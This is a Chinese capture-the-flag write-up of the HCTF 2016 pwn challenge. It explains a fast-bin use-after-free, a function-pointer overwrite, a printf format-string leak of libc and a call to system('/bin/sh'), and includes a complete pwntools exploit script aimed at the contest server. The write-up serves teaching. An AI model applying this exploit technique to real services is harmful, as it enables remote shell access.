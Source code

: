 ```yaml
---
layout:     post
title:      "2016-Hctf题解 -- 就是干"
subtitle:   "fast-bin内存机制的利用探究"
date:       2016-12-01 16:55:25
author:     "Carter"
header-img: "img/post-bg-2015.jpg"
tags:
    - Linux
    - pwn
    - UAF
---
```




### 一. 知识点：
**1. 代码段开了随机化怎么调试：**

需要两个文件，其一是debug，通过peda获取每次程序加载代码段基址，内容如下：

```javascript
python
code_addr = peda.get_vmmap('binary')[0][0]
peda.execute('set $code='+hex(code_addr))
end
source aa
```

另一个是断点文件aa，通过source指令链接到debug文件中，内容如下：

```python
break * $code + 0xe93
break * $code + 0xd65
```

在exp中只需要加入一句话就可以挂载gdb，并在启动gdb后自动加载断点信息

```python
gdb.attach(pidof('pwn1')[-1],open('debug'))
```

### 二. 题目描述：
该题主要有两个功能：

 - 一是开辟内存输入字符串
 - 二是删除字符串并释放该内存块

明显就是考察申请释放堆块的相关姿势。首先来看**输入字符串函数**：

每个字符串都会分配一个长度为32的堆块A「实际分配长度为48，包括16字节堆块头」。接着判断输入字符串长度，如果长度小于15，则直接把字符串存储在该堆块A中；如果大于15，则另外开辟一块内存B存储字符串，堆块A中仅仅存储堆块B的地址。

**长度小于15的字符串堆块：**

布局如下：
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-12-01-Hctf-jiushigan/10.png)
对应内存如下：
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-12-01-Hctf-jiushigan/1.png)

**长度大于15的字符串堆块：**
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-12-01-Hctf-jiushigan/2.png)
内存中还有一个堆块总管理地址，对每个字符串有两个变量来标志它：1.该字符串是否被删除的标志位; 2.为字符串分配的堆块地址
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-12-01-Hctf-jiushigan/3.png)

再来看看**删除字符串函数**:首先判断字符串对应的堆管理结构的第二个位置是否为0[**漏洞所在：第二个位置是函数地址永远不可能为0,判断无效**]，然后调用堆块中存储的'处理删除字符串函数'。如果我们可以覆盖此函数地址为其他地址，再释放该堆块，那么就可以任意函数执行了
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-12-01-Hctf-jiushigan/4.png)



### 三. 漏洞利用：
**1.**首先输入3个长度小于15的字符串，申请3块内存，此时堆管理结构如下：
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-12-01-Hctf-jiushigan/5.png)
**2.** 接着删除字符串1、2、3，因为堆块A、B、C都是小于128字节，所以分配和释放都用fast-bin方式进行。释放后的堆块在链表中将后进先出，此时该fast-bin链如下：
C --> B --> A 


**3**. 再输入一个长度大于15的字符串：首先会分配一块32字节的堆，此时将分配到空闲块C；接着分配一个字符串长度的堆块，此时应该保证字符串长度在15-32之间，就可以顺利的分配到空闲堆块B，然后字符串的内容由我们输入存放在堆块B中，就可以覆盖原本的'处理删除字符串函数'为我们想调用的函数printf


在这里有一个坑：printf函数的偏移为0x9d0，但是我们只能覆盖整数字节，也就是说得把原本'处理删除字符串函数'的后面4个字母数覆盖为'x9d0'，其中x是一个未知数，有16种可能，在这里只能fuzz撞概率咯~

覆盖前：
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-12-01-Hctf-jiushigan/6.png)
覆盖后：
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-12-01-Hctf-jiushigan/7.png)
**4.** 接着释放第2块会调用存放于堆块B中的'处理删除字符串函数'，此时已经被我覆盖为printf函数的地址
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-12-01-Hctf-jiushigan/8.png)
由调试可知，参数正好是输入字符串，所以就可以了任意函数执行并控制参数
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-12-01-Hctf-jiushigan/9.png)
**5.** 顺利的调用了printf('%170$p')，可以泄露存放在栈上的__libc_start_main+240的地址，从而可以计算出system函数的地址

**6.** 接着再执行一遍以上过程，从新触发任意函数执行的漏洞，执行system('/bin/sh')即可获取shell

**7.** 利用代码如下

```python
from pwn import *

context.log_level = 'debug'
global io

def create_list(io,length,strr):
	io.recvuntil('quit')
	io.sendline('create ')
	io.recvuntil('Pls give string size:')
	io.sendline(length)
	io.recvuntil('str:')
	io.sendline(strr)

def delete_list(io,number):
	io.recvuntil('quit')
	io.sendline('delete ')
	io.recvuntil('id:')
	io.sendline(number)
	io.recvuntil('Are you sure?:')
	io.sendline('yes')


def pwn():
	global io

	debug = 0
	if debug:
   	 	io = process('./pwn1')
	else:
		#io = remote('127.0.0.1',2333)
		io = remote('115.28.78.54',80)
		io.recvuntil('please input you token: ')
		io.sendline('b66888c818c08d932ea91b8d6a1f122c2y7ZAdbh')
#------------------------------------------------use fsb to leak __libc_start_main's address
	create_list(io,'10','aaaa')
	create_list(io,'10','bbbb')
	create_list(io,'10','cccc')
	delete_list(io,'0')
	delete_list(io,'1')
	delete_list(io,'2')
	content1 = "%175$p".ljust(24,'a')+'\xd0\xf9\x00'
	create_list(io,'29',content1)
	delete_list(io,'1')                     #-----printf('%113$p')

	data = io.recv(14)
	libc_start_main = int(data,16)-240
	print "libc_start_main_addr="+hex(libc_start_main)
#--------------------------------------------------caculate system_addr	
	libc_start_main_offset = 0x20740
	system_addr = 0x45380
	system_addr = libc_start_main  - libc_start_main_offset + system_addr
	print "system_addr=" + hex(system_addr)

	if debug:
		gdb.attach(pidof('pwn1')[-1],open('debug'))

	create_list(io,'10','zzzz\x00')

	create_list(io,'10','aaaa\x00')
	create_list(io,'10','bbbb\x00')
	create_list(io,'10','cccc\x00')
	delete_list(io,'2')
	delete_list(io,'3')
	delete_list(io,'4')
#----------can't have '\x00' in string.because len(string) must >15.And after '/bin/sh' must have a space.
	content2 = "/bin/sh #".ljust(24,'a')+ p64(system_addr)  
	create_list(io,'32',content2)
	delete_list(io,'3')                     #system('/bin/sh')
	
	io.sendline('uname -a')
	io.interactive()



if __name__ == '__main__':
	while True:
		try:
			pwn()
		except EOFError:
			print 'guess not success!!!'
			io.close()
			time.sleep(5)
```

[题目下载链接](https://github.com/carterMgj/blog_img/blob/master/2016-12-01-Hctf-jiushigan/pwn1)

### 唠叨几句：
这是第一次接触到还带猜的pwn，所以详细的记录了一下解题过程。猜的过程也比较有意思，由于主办方采取了一定的防DOS措施：当检测到访问过于频繁时就会禁止访问该题。加之学校ip出口都是一个，校内还有一些大佬也在fuzz这个题，所以导致fuzz过程异常艰难！

总的来说，这个题还是出得很棒的，给主办方杭州电子科技大的大佬们赞一个~